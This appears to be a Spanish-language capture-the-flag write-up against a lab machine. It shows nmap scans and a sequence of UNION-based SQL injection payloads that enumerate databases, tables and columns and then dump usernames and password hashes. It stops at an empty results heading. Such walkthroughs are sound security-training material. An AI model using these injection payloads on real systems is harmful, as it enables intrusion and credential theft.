 ## Reconocimiento

`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.116 -oG allPorts`

`nmap -p 22,80,4566,8080 -sCV -vvv 10.10.11.116 -oN targeted`

```
22/ssh
80/http
4566/http
8080/http
```

Navegamos al puerto 80.
Probando a introducir valores vemos que es vulnerable a HTMLinjection, También a Inyecciones XSS

Interceptamos la petición con Burpsuite, y vemos que en el campo de selección de países se puede inyectar código SQL y se ven reflejados en la web

`' union select database()-- -` Enumerar base de datos acctual `registration`

`' union select schema_name from information_schema.schemata-- -` Enumerar todas las bases de datos

`' union select table_name from information_schema.tables where table_schema="registration"-- -` Enumerar las tables de la base de datos registration.

`union select column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -` Enumerar las columnas

`' union select group_concat(username,0x3a,userhash) from registration-- -` Obtener los valores de las columnas

BBDD:
`registration`
Tables:
`registration`
Columns:
`username` `userhash` `country` `regtime`
Valores:


